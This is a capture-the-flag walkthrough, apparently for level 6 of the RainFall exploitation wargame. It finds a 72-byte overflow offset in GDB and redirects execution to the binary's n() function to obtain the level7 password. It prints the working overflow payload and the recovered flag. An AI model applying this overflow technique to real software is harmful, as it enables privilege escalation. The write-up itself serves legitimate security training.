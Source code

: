 #Level6

## Objective

The goal of Level 6 is to escalate from `level6` to `level7` by exploiting a buffer overflow vulnerability in the `level6` binary. By the end, we’ll be able to read the password for `level7`.

---

## Step 1: Examine the Binary

After switching to `level6`:

```bash
level6@RainFall:~$ ls
level6
```

Running the binary with different input lengths:

```bash
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)

level6@RainFall:~$ ./level6 aaaaa
nope
```

Disassembling functions:

There's a function called `n()` which calls a syscall.
The main uses 2 mallocs and a strcpy. If there's a strcpy there's a way to leak.

---

## Step 2: Find the Offset with GDB

We use a specific string to identify the overwrite point:

```bash
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9...
Program received signal SIGSEGV
0x41346341 in ?? ()
```
By calculating the position of `0x41346341` in the string, we determine the **offset** is 72 bytes.

---

## Step 4: So What’s the Expected Input?

To exploit the program:

* **Shellcode is not needed** here because the binary already has a function (`n`) that runs the command for us.
* We need: `padding (72 bytes) + address of n()`

```bash
python -c 'print "A" * 72 + "add de n"'
```

This overwrites the return address with the address of `n()`.

```bash
(gdb) info functions
    0x08048454  n
```

---

## Step 5: Get the Flag

Running the exploit:

```bash
level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

Now we can read:

```bash
level6@RainFall:~$ su level7
Password: <paste flag>
level6@RainFall:~$
```

---

**End of Level 6 Walkthrough**




